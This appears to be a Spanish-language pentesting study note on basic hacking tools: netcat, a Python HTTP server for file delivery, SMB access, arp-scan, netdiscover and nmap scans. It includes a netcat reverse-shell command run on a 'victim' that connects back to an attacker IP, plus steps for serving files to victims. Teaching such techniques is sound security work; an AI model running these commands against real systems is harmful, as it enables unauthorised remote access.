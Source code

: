 
# 🧠 Conceptos Básicos de Hacking

Este módulo introduce las herramientas y técnicas fundamentales utilizadas en la etapa de **reconocimiento y explotación básica** dentro de un proceso de pentesting. Todo lo que aprendas aquí será clave en casi cualquier entorno real.

---

## 🧪 Uso de Netcat para entablar Reverse Shell

**Netcat** (o `nc`) es una herramienta versátil para transferir datos a través de redes. Se puede usar para chats, escaneo de puertos, transferencias de archivos y establecer **conexiones reversas** (reverse shell).

### ❓ ¿Qué es una Reverse Shell?
Una reverse shell permite que una máquina víctima se conecte de vuelta al atacante, y le otorgue acceso remoto a través de una consola.

### 🧰 Comando típico:

**En el atacante (Kali):**
```bash
nc -lvnp 4444
```

**En la víctima:**
```bash
nc <IP_DEL_ATACANTE> 4444 -e /bin/bash
```

> 💡 En Windows usar: `-e cmd.exe` (aunque algunos antivirus lo bloquean).

---

## 🌐 Cómo Compartir Archivos con Servidor HTTP (Python) + Reverse Shell

A veces necesitas que la víctima descargue un archivo. Con Python puedes montar un servidor web al instante:

### 🚀 Comando:
```bash
# En el atacante (Kali):
python3 -m http.server 8080
```

Ahora puedes compartir archivos y scripts para que la víctima los descargue accediendo a `http://IP_DEL_ATACANTE:8080`.

---

## 🪟 Compartir Archivos por la Red en Máquinas Windows

Windows permite compartir carpetas por red (usando SMB). Puedes acceder desde Kali usando:

```bash
smbclient //IP_DEL_HOST/SHARE -U usuario
```

O montarlo directamente:

```bash
sudo mount -t cifs //IP_DEL_HOST/SHARE /mnt/smb -o username=usuario,password=contraseña
```

> ✅ Útil para transferir herramientas post-explotación como netcat o scripts de PowerShell.

---

## 🔎 Reconocimiento de la red con ARP-SCAN o NETDISCOVER

Antes de atacar, debes saber qué hosts están en tu red local.

### 🔍 Con `arp-scan`:
```bash
sudo arp-scan --interface=eth0 --localnet
```

### 🔍 Con `netdiscover`:
```bash
sudo netdiscover -i eth0 -r 192.168.1.0/24
```

> Útil para identificar direcciones IP y MAC de los dispositivos en la red.

---

## 🔍 Escaneos Básicos con Nmap

**Nmap** es la herramienta más usada en pentesting para reconocer servicios y puertos.

### 🔹 Escaneo rápido:
```bash
nmap -T4 -F 192.168.1.10
```

### 🔹 Escaneo más completo:
```bash
nmap -sS -sV -O -Pn 192.168.1.10
```

---

## 🧨 Detectar Vulnerabilidades con Nmap

Con `--script vuln` puedes correr una serie de scripts NSE que detectan fallos comunes:

```bash
nmap --script vuln 192.168.1.10
```

Esto te mostrará posibles vulnerabilidades como SMBv1 habilitado, HTTP mal configurado, etc.

---

## 📡 Escaneo de Puertos bajo el Protocolo UDP

Algunos servicios importantes (como DNS, SNMP) usan UDP. Para escanear:

```bash
sudo nmap -sU -T4 192.168.1.10
```

> Combinación recomendada:
```bash
sudo nmap -sS -sU -T4 -Pn 192.168.1.10
```

---

## 💬 Recomendaciones generales

- Guarda todo lo que descubras en archivos `.md` o `.txt`.
- No subestimes el reconocimiento. Es la clave para un ataque efectivo.
- Practica los comandos manualmente para entender qué hace cada parámetro.
- Usa entornos seguros para probar cada herramienta.

---

## 📚 Recursos útiles

- https://nmap.org/book/man.html
- https://nmap.org/nsedoc/
- man nmap, man netcat, man arp-scan

---

💡 “El reconocimiento es el 90% del éxito. Si conoces tu entorno, ya ganaste medio ataque.”
